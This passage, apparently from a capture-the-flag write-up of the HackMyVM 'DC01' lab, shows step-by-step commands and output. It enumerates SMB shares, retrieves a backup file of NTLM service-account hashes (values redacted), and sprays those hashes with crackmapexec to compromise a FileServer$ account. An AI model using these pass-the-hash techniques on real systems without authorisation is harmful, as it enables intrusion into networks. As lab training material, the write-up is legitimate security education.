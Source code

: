 ```bash
SMB         SOUPEDECODE.LOCAL 445    DC01             SYSVOL          READ            Logon server share 
SMB         SOUPEDECODE.LOCAL 445    DC01             Users  
```

We see that we have access to an interesting share named backup. Let's connect to this share and enumerate its content.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC01/Misc File]
└─$ smbclient -U 'file_svc' //SOUPEDECODE.LOCAL/backup
Password for [WORKGROUP\file_svc]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 17 18:41:17 2024
  ..                                 DR        0  Mon Jun 17 18:44:56 2024
  backup_extract.txt                  A      892  Mon Jun 17 09:41:05 2024

                12942591 blocks of size 4096. 11001352 blocks available
smb: \> get backup_extract.txt 
getting file \backup_extract.txt of size 892 as backup_extract.txt (290.4 KiloBytes/sec) (average 49.8 KiloBytes/sec)
smb: \> exit

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC01/Misc File]
└─$ cat backup_extract.txt                                                    
WebServer$:2119:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
DatabaseServer$:2120:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
CitrixServer$:2122:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
FileServer$:2065:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
MailServer$:2124:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
BackupServer$:2125:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
ApplicationServer$:2126:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
PrintServer$:2127:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
ProxyServer$:2128:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
MonitoringServer$:2129:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
```

We can see that the backup share on the DC01 contained a text file with NTLM password hashes of service accounts on the target. We can try to spread these hashes to the usernames we enumerated earlier to check the occurrence of any password re-used.<br>
*NB: In real-world penetration testing, it’s crucial to limit the number of password spray attempts based on the account lockout policy in the environment. This precaution helps prevent the accidental locking of sensitive accounts, which could disrupt our client's operations.*
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC01/Misc File]
└─$ cat backup_extract.txt | cut -d '$' -f1 > names.txt
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC01/Misc File]
└─$ cat backup_extract.txt | cut -d ':' -f4 > hashes.txt

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC01/Misc File]
└─$ crackmapexec smb SOUPEDECODE.LOCAL -u ../Scans/AD\ Enumeration/valid_users.txt  -H hashes.txt | grep -v '[-]'
SMB                      SOUPEDECODE.LOCAL 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB                      SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\FileServer$:<REDACTED> (Pwn3d!)
```
